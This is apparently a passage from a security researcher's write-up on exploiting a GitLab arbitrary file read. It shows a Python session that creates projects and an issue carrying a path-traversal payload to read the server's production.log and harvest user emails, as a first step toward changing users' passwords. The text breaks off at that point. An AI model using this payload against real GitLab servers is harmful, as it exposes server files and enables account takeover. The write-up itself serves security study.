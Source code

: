 A potential adversary can grab `/var/log/gitlab/gitlab-rails/production.log` in a hunt for repository names. But, unfortunately, these names cannot be used to pillage the repo contents like it's done in [gitpillage.sh](https://github.com/evilpacket/DVCS-Pillage/blob/master/gitpillage.sh) or [gitjacker](https://github.com/liamg/gitjacker), because git object files are not writable by `git`:

```
git@gitlab:~/git-data/repositories/snovvcrash/testing.git$ find . -type f -ls
  4076646      4 -rw-r--r--   1 git      git            73 Feb 20 20:27 ./description
  4076700      4 -r--r--r--   1 git      git            54 Feb 20 20:27 ./objects/6d/0766474b191be6f96e2d6f2700cfda931972cb    <=== NOT WRITABLE
  4076702      4 -r--r--r--   1 git      git           128 Feb 20 20:27 ./objects/45/f3aa4c8dbdc678acad919f135481734b02fc7b    <=== NOT WRITABLE
  4076698      4 -r--r--r--   1 git      git            29 Feb 20 20:27 ./objects/c2/8679c4b723f6be660c1be95cd8e1cfccde03ce    <=== NOT WRITABLE
  4076664      4 -rw-r--r--   1 git      git            66 Feb 20 20:27 ./config
  4076648      4 -rwxr-xr-x   1 git      git          3610 Feb 20 20:27 ./hooks.old.1613852846/update.sample
  4076649      4 -rwxr-xr-x   1 git      git           424 Feb 20 20:27 ./hooks.old.1613852846/pre-applypatch.sample
  4076650      4 -rwxr-xr-x   1 git      git           478 Feb 20 20:27 ./hooks.old.1613852846/applypatch-msg.sample
  4076651      4 -rwxr-xr-x   1 git      git          1642 Feb 20 20:27 ./hooks.old.1613852846/pre-commit.sample
  4076652      4 -rwxr-xr-x   1 git      git           189 Feb 20 20:27 ./hooks.old.1613852846/post-update.sample
  4076653      8 -rwxr-xr-x   1 git      git          4898 Feb 20 20:27 ./hooks.old.1613852846/pre-rebase.sample
  4076654      4 -rwxr-xr-x   1 git      git           896 Feb 20 20:27 ./hooks.old.1613852846/commit-msg.sample
  4076655      4 -rwxr-xr-x   1 git      git           544 Feb 20 20:27 ./hooks.old.1613852846/pre-receive.sample
  4076656      4 -rwxr-xr-x   1 git      git          1348 Feb 20 20:27 ./hooks.old.1613852846/pre-push.sample
  4076657      4 -rwxr-xr-x   1 git      git          1239 Feb 20 20:27 ./hooks.old.1613852846/prepare-commit-msg.sample
  4076659      4 -rw-r--r--   1 git      git           240 Feb 20 20:27 ./info/exclude
  4076663      4 -rw-r--r--   1 git      git            23 Feb 20 20:27 ./HEAD
  4076704      4 -rw-r--r--   1 git      git            41 Feb 20 20:27 ./refs/heads/master
```

So what else can be done when you possess the log files :thinking:

How about changing someone's password?

## Changing a user's password

I will install [python-gitlab](https://github.com/python-gitlab/python-gitlab) to interact with GitLab API and perform the attack from command line. This [exploit](https://www.exploit-db.com/exploits/49076) is useful as a cheat sheet.

Now I want to get `production.log` for the first time to extract some user emails:

```python
Python 3.9.1 (default, Dec  8 2020, 07:51:42)
>>> import requests
>>> from gitlab import *
>>> session = requests.Session()
>>> session.verify = False
>>> host = 'http://gitlab.local'
>>> gl = Gitlab(host, private_token='B-XXqsurLyn5yPsXmrER', session=session)
>>> gl.auth()
>>> p1 = gl.projects.create({'name': 'project-1'})
>>> p2 = gl.projects.create({'name': 'project-2'})
>>> issue = p1.issues.create({'title': 'project-1-issue', 'description': '![a](/uploads/11111111111111111111111111111111/../../../../../../../../../../../../../var/log/gitlab/gitlab-rails/production.log)'})
```